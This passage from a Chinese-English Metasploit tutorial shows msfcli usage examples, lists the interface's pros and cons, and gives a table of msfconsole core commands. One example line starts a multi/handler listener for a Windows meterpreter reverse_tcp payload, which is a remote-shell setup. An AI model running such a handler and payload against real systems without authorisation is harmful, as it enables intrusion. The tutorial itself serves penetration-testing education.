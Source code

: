 Examples:
msfcli multi/handler payload=windows/meterpreter/reverse_tcp lhost=IP E
msfcli auxiliary/scanner/http/http_version rhosts=IP encoder= post= nop= E
```

####  2.1.1 Benefits of the MSFcli Interface

- 支持启动 exploits and auxiliary modules
- 有助于特殊任务
- 好学
- 易于测试一个新开发的渗透
- 时一次性渗透的好工具
- 快速渗透

The only real drawback of msfcli is that it is not supported quite as well as msfconsole and it can only handle one shell at a time, making it rather impractical for client-side attacks. It also doesn’t support any of the advanced automation features of msfconsole.

###  2.2 MSFconsole 命令

####  2.2.1 Core Commands
|命令|功能|
|-|-|
|back|从当前上下文返回原环境。|
|banner| 显示标志 awesome metasploit banner|
|cd| 进入某个工作目录|
|color| 色彩|
|connect|与某个主机通信|
|edit|  使用 $VISUAL or $EDITOR 编辑当前模块|
|exit|  退出控制台|
|get|  获取某个上下文相关的变量的值。|
|getg| 获取某个全局变量的值|
|go_pro|登录msf web ui|
|grep|  GREP另一个命令输出|
|help|  Help menu|
|info| 显示一个或多个模块的信息|
|irb|   Drop into irb scripting mode|
|jobs| 显示和管理作业|
|kill| 杀死作业|
|load| 调用一个框架插件|
|loadpath|从指定路径查找并加载模块。|
|makerc|Save commands entered since start to a file|
|popm|  Pops the latest module off the stack and makes it active|
|previous|Sets the previously loaded module as the current module|
|pushm| Pushes the active or list of modules onto the module stack|
|quit|  Exit the console|
|reload_all|Reloads all modules from all defined module paths|
|rename_job|Rename a job|
|resource|Run the commands stored in a file|
|route| Route traffic through a session|
|save|  Saves the active datastores|
|search|Searches module names and descriptions|
|sessions|Dump session listings and display information about sessions|
|set|   Sets a context-specific variable to a value|
|setg|  Sets a global variable to a value|
|show|  Displays modules of a given type, or all modules|
|sleep| Do nothing for the specified number of seconds|
|spool| Write console output into a file as well the screen|
|threads|View and manipulate background threads|
|unload|Unload a framework plugin|
|unset| Unsets one or more context-specific variables|
|unsetg|Unsets one or more global variables|
|use|   Selects a module by name|
|version|Show the framework and console library version numbers|
```